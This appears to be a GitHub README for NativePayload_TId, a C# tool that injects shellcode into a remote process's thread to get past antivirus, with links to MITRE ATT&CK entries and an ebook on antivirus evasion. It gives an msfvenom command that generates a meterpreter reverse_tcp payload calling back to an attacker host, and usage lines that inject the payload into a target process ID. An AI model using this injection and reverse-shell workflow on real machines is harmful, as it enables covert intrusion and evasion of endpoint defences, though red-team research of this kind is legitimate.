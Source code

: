 # NativePayload_TId
Remote Thread Injection by C# Delegate

-----------------------
Related Links for "Mitre ATT&CK" : 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_TId.exe [TPID] [PAYLOAD]

    Code2: NativePayload_TIdnt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_TId.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TIdnt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

Article [2]: https://damonmohammadbagher.github.io/Posts/11Feb2021x.html

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part2)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part2.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

![](https://github.com/DamonMohammadbagher/NativePayload_TId/blob/main/NativePayload_TIdnt.jpeg)



